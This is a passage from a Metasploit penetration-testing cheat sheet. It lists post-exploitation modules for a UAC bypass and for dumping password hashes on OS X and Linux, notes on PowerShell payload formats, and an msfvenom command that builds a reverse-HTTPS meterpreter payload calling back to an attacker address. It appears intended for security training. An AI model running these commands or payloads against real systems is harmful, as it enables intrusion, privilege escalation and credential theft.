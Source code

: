```txt
post/windows/gather/enum_patches_    
post/multi/recon/local_exploit_suggester_
```
**Unattended files**
```txt
post/windows/gather/enum_unattend
```
**Bypass User Access Control (UAC):**
```bash
run post/windows/escalate/bypassuac
```
**Dump Hashes on an OS X system:**
```bash
run post/osx/gather/hashdump
```
**Dump Hashes on a Linux system:**
```bash
run post/linux/gather/hashdump
```
---
# Powershell
PowerShell payload formats
1. **psh**
2. **psh-cmd**
3. **psh-net**
4. **psh-reflection**
	- Very useful
	- Compilation happens in memory
	- No need of execute privileges on temp directory 
	- Use this often
- **Metasploit modules which use PowerShell**
	-  `exploit/windows/smb/psexec_psh`
        - Payload is never written to disk
	- `exploit/windows/local/powershell_cmd_upgrade`
		- Used to upgrade a  native cmd  to  meterpreter.
	- `post/windows/manage/powershell/exec_powershell`
		- Execute a .ps1 from local machine.

### Example
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 -f psh-reflection > ps.ps1
```
---
# Further learning
- [https://www.offensive-security.com/metasploit-unleashed/](https://www.offensive-security.com/metasploit-unleashed/)